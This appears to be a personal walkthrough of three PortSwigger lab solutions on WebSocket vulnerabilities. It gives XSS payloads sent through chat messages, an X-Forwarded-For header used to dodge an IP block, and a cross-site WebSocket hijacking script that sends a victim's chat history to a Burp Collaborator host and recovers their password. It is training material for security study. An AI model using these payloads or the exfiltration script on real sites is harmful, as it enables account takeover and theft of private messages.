 # Portswigger
## WebSockets
### Manipulating WebSocket messages to exploit vulnerabilities
```bash

# This online shop has a live chat feature implemented using WebSockets.

# Chat messages that you submit are viewed by a support agent in real time.

# To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 

Go to: "Live chat"
Send content:

<img src=1 onerror='alert(1)'>

Note the WebSickets history:

{"message":"&lt;img src=1 onerror=&#39;alert(1)&#39;&gt;"}

Intercept is on:
Change the URL-encoded message:

{"user":"You","content":"<img src=1 onerror='alert(1)'>"}

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529190422.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529190627.png)

### Manipulating the WebSocket handshake to exploit vulnerabilities
```bash

# This online shop has a live chat feature implemented using WebSockets.

# It has an aggressive but flawed XSS filter.

# To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 

Go to: "Live chat"
Send message:

hey there!

send message:

<img src=1 onerror='1'>

Note the session terminates and you cannot go back to the previous session (apparently this is supposed to happen immediately, yet this was not the case for me as it happened after multiple chat terminations)
Send the 'hey there!' WebSockets history request to repeater
Go to: pencil icon
Source: Proxy
Click reconnect on any request w/ source as "proxy"
Insert into the request:

X-Forwarded-For: 1.3.4.5

Connect
You should be prompted with a response in the WebSockets history
Change the message

Insert:

<iframe src='jaVaScRiPt:alert`1`'></iframe>

Like so:

{"message":"<iframe src='jaVaScRiPt:alert`1`'></iframe>"}

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529202458.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529200830.png)

### Cross-site WebSocket hijacking
```bash

# This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).

# To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a [cross-site WebSocket hijacking attack](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) to exfiltrate the victim's chat history, then use this gain access to their account.

Go to: "Live chat"
Message:

"hey"

Refresh page

Go to: 

GET /chat HTTP/1.1

Copy URL
Go to Burp -> Burp Collaborator client -> Copy to clipboard
Go to: "Go to exploit server"
Body:

<script>
    var ws = new WebSocket('wss://ac251fde1f0701dfc067179b00790020.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://424gaodtzbp03su14y0de4y7uy0ood.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

View exploit
Go to: Burp Collaborator client -> Poll now
Once verified that the responses are being received:

Deliver exploit to victim
Go to: Burp Collaborator client -> Poll now
Go to:
Type: HTTP
Request to Collaborator

{"user":"You","content":"I forgot my password"}

{"user":"Hal Pline","content":"No problem carlos, it&apos;s zldkzccg4yvolbdftqa7"}

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529204148.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220529205840.png)

#hacking
